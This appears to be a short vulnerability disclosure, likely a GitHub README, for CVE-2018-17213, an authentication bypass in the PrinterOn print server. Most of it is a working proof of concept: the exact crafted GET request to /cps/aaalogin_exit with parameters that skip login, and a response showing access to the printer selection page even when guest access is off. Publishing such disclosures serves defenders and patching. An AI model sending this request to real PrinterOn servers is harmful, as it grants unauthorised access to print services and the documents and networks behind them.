 # CVE-2018-17213-Authentication Bypass-PrinterOn

The PrinterOn application is vulnerable to Authentification Bypass attacks that allows attackers to gain access via a crafted GET request. Even if the print server is secured to allow only valid users to authenticate, and has the “Allow Guest” functionality turned off, the vulnerability still occurs.

##### REQUEST:

```
GET /cps/aaalogin_exit?jobReferenceID=null&approveUse=TRUE HTTP/1.1
Host: YY.YY.YY.YY
```

##### RESPONSE:

```
HTTP/1.1 200 
<--SNIP-->
Server: PrinterOn 
 
<!DOCTYPE html>
<html lang="en">
    <head>
        <title>PrinterOn Printing Service</title>

<--SNIP-->

<h3 class="panel-title">

                                Step 1 - Choose a Printer
                           
<--SNIP-->
````

<img src='Auth_Bypass_Result.png'>

